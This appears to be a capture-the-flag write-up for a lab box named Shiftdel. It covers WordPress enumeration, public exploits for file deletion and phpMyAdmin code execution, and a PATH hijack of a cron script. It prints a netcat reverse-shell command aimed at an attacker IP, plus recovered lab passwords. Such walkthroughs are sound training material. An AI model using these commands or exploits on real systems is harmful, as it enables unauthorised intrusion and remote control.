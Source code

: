 # Shiftdel

I start off by scanning for open ports:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then i go and look at the webserver and see that it's running with wordpress:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i launch a wp-scan and find the wordpress version:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and after googling we find some interesting stuff:

{% embed url="https://www.exploit-db.com/exploits/50456" %}

{% embed url="https://www.exploit-db.com/exploits/47690" %}

so i'm able to read files and apparently the onboarding page had everything i needed:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>IntraPersonalVision349</p></figcaption></figure>

So i found a password but no username that i'm sure of so i went and looked at my wpscan cheat sheets and tried to find something to enumerate users&#x20;

```
wpscan --url http://192.168.57.174 --enumerate u
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and i manage to login:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so there is not much going on and the account is restrictive so the only way to go must be the version exploit we found earlier ->

While reading the code i'm starting to understand how WTF this box is and why the hell as a pentester should i break the website to get my RCE, maybe this is blackhat training IDK but whatever ->

So i needed to:

```
Usage:
  1. Login to wordpress with privileges of an author
  2. Navigates to Media > Add New > Select Files > Open/Upload
  3. Click Edit > Open Developer Console > Paste this exploit script
  4. Execute the function, eg: unlink_thumb("../../../../wp-config.php")
```

So i start off by uploading a random png to the app and editing it:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then i reload and the website is totally screwed:

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and now i can curl wp-config.php without encoding:

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption><p>wordpress:ThinnerATheWaistline348</p></figcaption></figure>

With this i'm able to login in the php my admin instance:

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I see the version and i can use this exploit:

{% embed url="https://www.exploit-db.com/exploits/50457" %}

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
python2 50457.py 192.168.57.174 8888 / wordpress ThinnerATheWaistline348 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.57 1234 >/tmp/f'
```

<figure><img src="../../../.gitbook/assets/image (12) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Looking thought the linpeas output we spot nothing, maybe some cronjobs that are not default like the wpclean?

<figure><img src="../../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

and looking at the script it's indeed the way to go:

<figure><img src="../../../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption></figcaption></figure>

the  **`PATH`** environment is vulnerable

* `~/bin` expands to `/var/www/html/wordpress/wp-content/uploads/bin` (where you have write access).
* **This means `rm` is looked up in `~/bin` before `/usr/bin/rm`!**
* If an attacker creates an **executable file named `rm`** inside `~/bin`, it will be executed **instead of the real `/usr/bin/rm`**.

and after waiting for a bit i got my reverse shell:

<figure><img src="../../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption></figcaption></figure>
